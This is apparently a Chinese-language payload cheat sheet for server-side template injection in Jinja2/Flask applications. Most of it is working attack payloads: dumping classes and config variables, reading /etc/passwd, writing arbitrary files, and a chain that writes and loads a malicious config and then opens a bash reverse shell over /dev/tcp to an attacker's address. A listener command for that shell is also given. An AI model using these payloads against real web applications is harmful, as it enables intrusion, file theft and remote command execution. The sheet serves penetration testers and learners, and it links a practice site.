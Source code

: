# 模板注入

模板注入允许攻击者将模板代码包含到一个存在(或不存在)的模板中.

## Jinja2
[官方网址](http://jinja.pocoo.org/)
> Jinja2是Python的一个完整的模板引擎. 它有完全的unicode支持,一个可选的集成沙盒执行环境,广泛使用以及BSD许可.

Jinja2是由Python的Web框架使用的，比如Django或Flask.
上面的注入已经在Flask应用中进行了测试.
#### 模板格式
```
{% extends "layout.html" %}
{% block body %}
  <ul>
  {% for user in users %}
    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
  {% endfor %}
  </ul>
{% endblock %}

```

#### 转储所有使用类
```
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

#### 转储所有配置变量
```python
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

#### 读取远程文件
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }} 
```

#### 写入远程文件
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
```

#### 通过反向shell执行远程代码
监听连接
```
nv -lnvp 8000
```
注入这个模板
```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

#### 资源
[https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)

#### 练习
[https://w3challs.com/](https://w3challs.com/)
